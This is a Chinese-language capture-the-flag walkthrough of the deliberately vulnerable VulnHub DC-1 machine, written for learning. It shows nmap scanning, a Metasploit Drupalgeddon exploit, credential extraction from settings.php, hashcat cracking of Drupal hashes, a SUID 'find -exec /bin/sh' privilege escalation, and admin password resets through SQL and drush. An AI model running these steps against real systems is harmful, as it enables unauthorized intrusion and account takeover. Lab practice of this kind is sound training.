# DC1-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-1,292/

**Description**

DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

Beginners may encounter challenges that they have never come across previously, but a Google search should be all that is required to obtain the information required to complete this challenge.

**知识点**
- drupal 漏洞利用 (flag1)
- Linux 提权 (flag5)
- hashcat 跑密码 (flag3)
- drush 使用 (补充)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

老规矩,先进行 IP 探测,我在部署的时候使用的是 NAT 模式，这里 kali 使用 nmap 探活,当然 kali 下还有一个工具 netdiscover 点名批评一下,一点都不好用,大家不要用这个

语法 `nmap -sP <网段>/24`

```bash
nmap -sP 192.168.141.0/24
```



可见有5个结果，去除网关和 kali 和 VM 主机以外 `192.168.141.135` 就是目标了

下面扫描开放端口,还是使用 nmap

```bash
nmap -T5 -A -v -p- 192.168.141.135
```

扫描结果如下
```
root@kali:~# nmap -T5 -A -v 192.168.141.135
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-31 10:48 EST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:48
Completed NSE at 10:48, 0.00s elapsed
Initiating NSE at 10:48
Completed NSE at 10:48, 0.00s elapsed
Initiating NSE at 10:48
Completed NSE at 10:48, 0.00s elapsed
Initiating ARP Ping Scan at 10:48
Scanning 192.168.141.135 [1 port]
Completed ARP Ping Scan at 10:48, 0.03s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:48
Completed Parallel DNS resolution of 1 host. at 10:48, 0.00s elapsed
Initiating SYN Stealth Scan at 10:48
Scanning 192.168.141.135 [1000 ports]
Discovered open port 111/tcp on 192.168.141.135
Discovered open port 80/tcp on 192.168.141.135
Discovered open port 22/tcp on 192.168.141.135
Completed SYN Stealth Scan at 10:48, 0.11s elapsed (1000 total ports)
Initiating Service scan at 10:48
Scanning 3 services on 192.168.141.135
Completed Service scan at 10:48, 11.20s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 192.168.141.135
NSE: Script scanning 192.168.141.135.
Initiating NSE at 10:48
Completed NSE at 10:48, 2.60s elapsed
Initiating NSE at 10:48
Completed NSE at 10:48, 0.17s elapsed
Initiating NSE at 10:48
Completed NSE at 10:48, 0.00s elapsed
Nmap scan report for 192.168.141.135
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-favicon: Unknown favicon MD5: B6341DFC213100C61DB4FB8775878CEC
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44753/tcp   status
|   100024  1          47638/tcp6  status
|   100024  1          48481/udp   status
|_  100024  1          60433/udp6  status
```

可见开放了 22、80、111 3个端口,且 80 端口运行着 Drupal 这个 CMS

那么,下面就是对目前已经收集到了信息进行进一步利用
```
Drupal 7 漏洞利用
SSH 爆破
```

---

# 中期-漏洞利用

从之前的 nmap 结果得知，目标 80 端口运行着 Drupal 7 版本的 CMS，那么其实有很多公开的 CVE EXP 可供使用

- CVE-2014-3704
- CVE-2018-7600
- CVE-2018-7602
- CVE-2019-6339
- CVE-2019-6341

漏洞信息和 POC 见 [Web_CVE漏洞记录](../../../笔记/RedTeam/Web_CVE漏洞记录.md#Drupal)

CVE-2018-7602、CVE-2019-6339、CVE-2019-6341 需要认证，这里就懒得测了，以 CVE-2014-3704 和 CVE-2018-7600 为例,Metasploit 自带这2个漏洞的 EXP
```bash
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS 192.168.141.135
run
```



可以看到成功弹回一个会话,这里使用 exploit/unix/webapp/drupal_drupalgeddon2 这个模块也可以成功,就不一一展示了

获取 meterpreter 会话后，先整一个 cmd shell
```bash
shell
```


这狗日的回显执行命令真是麻烦,咱给他再整个正常交互式的 shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```



ok,现在有了一个 www-data 用户的权限，下面开始按照描述中的找那5个 flag 文件

---

# flag1

先 find 试试
```bash
find / -name flag*
```


什么鬼,当前目录下就有1个，欸不对，怎么只找到1个，是权限不够吗，可恶啊 (╯‵□′)╯︵┻━┻

不管了先看看再说
```
cat flag1.txt
Every good CMS needs a config file - and so do you.
```

cms 的配置文件有什么东西是吧,老子来啦ヾ(^▽^*)

---

# flag2

drupal 7 的配置文件是 /sites/all/modules/domain/settings.inc
```
cat sites/all/modules/domain/settings.inc
cat: sites/all/modules/domain/settings.inc: No such file or directory
```

没有找到这个文件,甚至连 domain 目录都没有,那么这个配置文件会不会指的是 CMS 的其他配置文件,比如数据库连接的配置文件 /sites/default/settings.php
```
cat sites/default/settings.php
```



可以看到 flag2 的内容和 mysql 数据库的账号密码
```
Brute force and dictionary attacks aren't the only ways to gain access (and you WILL need access).What can you do with these credentials?
```
机翻
```
暴力和字典攻击不是获得访问权限的唯一方法（并且您将需要访问权限）。这些凭证怎么办？
```

你问我拿凭证干嘛,废话当然要登上去看看啊

---

# flag3

配置文件都写了是 mysql,那就本地直接连接
```bash
mysql -u dbuser -p
```



看看数据库看看表

```bash
show databases;
use drupaldb;
show tables;
```



```
+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
| cache_update                |
| cache_views                 |
| cache_views_data            |
| comment                     |
| ctools_css_cache            |
| ctools_object_cache         |
| date_format_locale          |
| date_format_type            |
| date_formats                |
| field_config                |
| field_config_instance       |
| field_data_body             |
| field_data_comment_body     |
| field_data_field_image      |
| field_data_field_tags       |
| field_revision_body         |
| field_revision_comment_body |
| field_revision_field_image  |
| field_revision_field_tags   |
| file_managed                |
| file_usage                  |
| filter                      |
| filter_format               |
| flood                       |
| history                     |
| image_effects               |
| image_styles                |
| menu_custom                 |
| menu_links                  |
| menu_router                 |
| node                        |
| node_access                 |
| node_comment_statistics     |
| node_revision               |
| node_type                   |
| queue                       |
| rdf_mapping                 |
| registry                    |
| registry_file               |
| role                        |
| role_permission             |
| search_dataset              |
| search_index                |
| search_node_links           |
| search_total                |
| semaphore                   |
| sequences                   |
| sessions                    |
| shortcut_set                |
| shortcut_set_users          |
| system                      |
| taxonomy_index              |
| taxonomy_term_data          |
| taxonomy_term_hierarchy     |
| taxonomy_vocabulary         |
| url_alias                   |
| users                       |
| users_roles                 |
| variable                    |
| views_display               |
| views_view                  |
| watchdog                    |
+-----------------------------+
```

不用说了,这么大个 users 写在那了,还用找其他的吗,直接查询用户名密码

```mysql
select name,pass from users;
+-------+---------------------------------------------------------+
| name  | pass                                                    |
+-------+---------------------------------------------------------+
|       |                                                         |
| admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR |
| Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg |
+-------+---------------------------------------------------------+
```

得到了密码的 hash 就得跑明文了,下面使用 hashcat 爆破

当然你不能直接跑,兄弟,你得知道 Hash id `hashcat --help` 查看 hash 对照表
```bash
root@kali:~# hashcat --help | grep "Drupal"
   7900 | Drupal7                                          | Forums, CMS, E-Commerce, Frameworks
```

这里把 hash 先写到源文件里,等下直接引用
```bash
echo "\$S\$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR" > source.txt
echo "\$S\$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg" >> source.txt
```

然后找个密码表,推荐一下我自己的字典项目 https://github.com/No-Github/AboutSecurity/tree/master/%E5%AD%97%E5%85%B8/%E8%AE%A4%E8%AF%81%E5%AD%97%E5%85%B8/password

```bash
hashcat -m 7900 -a 0 source.txt pass01.txt

-m 指定要破解的 hash 类型，如果不指定类型，则默认是 MD5
-a 指定要使用的破解模式，其值参考后面对参数。“-a 0”字典攻击，“-a 1” 组合攻击；“-a 3”掩码攻击。
source.txt 你要爆破的 hash 列表
pass01.txt 你的密码表
```

一切准备就绪,run


只跑出一个 MyPassword,真是不甘心,俺得想想办法,终于,我 google 到了 admin 的密码 53cr3t ,赶紧把它加到我的密码表里

好,admin 的账号密码都有了,那么直接登录,可以看到 dashboard 里就有 flag3



```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```
机翻
```
特殊的 PERMS 可以帮助找到 passwd,但您需要 -exec 该命令来确定如何获取隐藏的内容。
```

---

# flag4

passwd 还需要找吗,当我哈批是吧,昂

```bash
cat /etc/passwd
```



发现一个 flag4 用户，直接看家目录文件
```bash
cat /home/flag4/flag4.txt
```
```
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?
```
机翻
```
您可以使用相同的方法在根目录中查找或访问 flag 吗？

大概。但这并不是那么容易。也许是吧？
```

---

# flag5

嘲讽我没有权限是吧,这就提权给你看

这里使用 [LinEnum](https://github.com/rebootuser/LinEnum)

kali 下载
```bash
git clone https://github.com/rebootuser/LinEnum.git
```

这里下了一会发现速度太慢,不管了,就当我速度快好了,下完了使用 HTTP 服务传过去

> 注: 如果 git速度太慢，请参考 [Misc-Plan](../../../../Plan/Misc-Plan.md#git) 中给 git 或终端走代理的方法

```bash
python -m SimpleHTTPServer 8080
```


```bash
wget http://192.168.141.134:8080/LinEnum/LinEnum.sh
```


从 kali 上下好后直接运行
```bash
bash LinEnum.sh
```



看到 find 没有,今天就让我提个痛快
```bash
find . -exec /bin/sh \; -quit
```


```
ls /root
cat /root/thefinalflag.txt
```

提权成功,感谢靶机作者 @DCUA7,查看最终 flag



---

# 补充

在 flag3 跑 hashcat 时,如果跑不出密码,除了 google 以外还有2种方式登录 admin 账号
- 直接数据库修改 Drupal users 表
- 通过 drush 修改 admin 用户的密码

**直接数据库修改 Drupal users 表**

我都爆出了 Fred 的明文 MyPassword 了,那我直接把 admin 的改成和 Fred 的一样不就行了
```bash
mysql -u dbuser -p
use drupaldb;
update users set pass='$S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg' where name='admin';
```



ok 登上去了

**通过 drush 修改 admin 用户的密码**

Drush是一个 shell 接口，用于从云服务器命令行管理 Drupal。

现在服务器上找找 drush,没有的话还得给他传一个
```
find / -name drush
/var/www/sites/all/modules/views/drush
/var/www/sites/all/modules/ctools/drush
/usr/local/bin/drush
```

然后直接修改 admin 密码
```
/usr/local/bin/drush user-password admin --password="admin"
```


测试一下,ok 登上去了


